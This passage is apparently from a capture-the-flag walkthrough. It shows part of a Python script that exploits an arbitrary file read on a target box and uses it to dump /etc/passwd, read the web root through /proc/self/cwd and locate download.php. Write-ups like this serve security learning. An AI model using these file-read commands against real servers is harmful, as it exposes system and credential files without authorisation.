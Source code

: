     with zipfile.ZipFile(BytesIO(resp.content)) as zip_file:
        file_path_in_zip = zip_file.namelist()[0]
        with zip_file.open(file_path_in_zip) as file:
            contents = file.read()
    
    if outfile:
        with open(outfile, 'wb') as f:
            f.write(contents)
        print(f"Results written to {outfile}")
    else:
        print(contents.decode())
    

#### General Filesystem Enumeration

According to the `passwd` file, the box has six users with shells set:

    
    
    oxdf@hacky$ python read_file.py /etc/passwd | grep sh$
    root:x:0:0:root:/root:/bin/bash
    cbrown:x:1000:1000:Charlie Brown:/home/cbrown:/bin/bash
    sbrown:x:1001:1001:Sally Brown:/home/sbrown:/bin/bash
    lpelt:x:1003:1004::/home/lpelt:/bin/bash
    cschultz:x:1004:1005:Charles Schultz:/home/cschultz:/bin/bash
    vgray:x:1005:1006:Violet Gray:/home/vgray:/bin/bash
    

The website can be accessed with `/proc/self`:

    
    
    oxdf@hacky$ python read_file.py /proc/self/cwd/index.html
    <!DOCTYPE html>
    <html lang="en">
    
    <head>
      <meta charset="utf-8">
      <meta content="width=device-width, initial-scale=1.0" name="viewport">
      ...[snip]...
    

`/download` doesn’t work, nor with `index.php`, but `/download.php` does:

    
    
    oxdf@hacky$ python read_file.py /proc/self/cwd/download/
    File not found: /proc/self/cwd/download/
    oxdf@hacky$ python read_file.py /proc/self/cwd/download/index.php
    File not found: /proc/self/cwd/download/index.php
    oxdf@hacky$ python read_file.py /proc/self/cwd/download.php
    <?php
    ...[snip]...
    

The full file is:

    
    
    <?php
    